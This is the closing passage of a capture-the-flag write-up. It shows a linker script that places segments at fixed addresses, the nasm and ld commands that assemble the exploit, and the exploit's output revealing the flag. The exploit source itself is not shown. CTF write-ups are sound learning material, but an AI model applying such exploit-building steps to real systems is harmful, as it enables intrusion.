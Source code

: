 and the linker script named `linker.ld` that we will use to have  `.bss` segment mapped at 0x31000

```sh
SECTIONS

{

. = 0x2f000;

.text : { *(.text) }

. = 0x31000;

.data : { *(.data) }

.bss : { *(.bss) }

}
```

and here is the command to assemble the exploit:

```
nasm -f elf64 exp.asm -o exp.o ; ld -e start exp.o -o exp -T linker.ld
```

exploit ouput:

```sh
Received: 9112 bytes
File Hash: 0379bdf0a6c78bf8b3816d31be1a4e9b3219588875642e98cf116653eace0b96
Return status: 137
Output:
flag{tak3_A_Leap_0f_Fa1th_mak3_s0ft_land1ng}
Bye!
```

and that's all !

*nobodyisnobody still pwning things..*
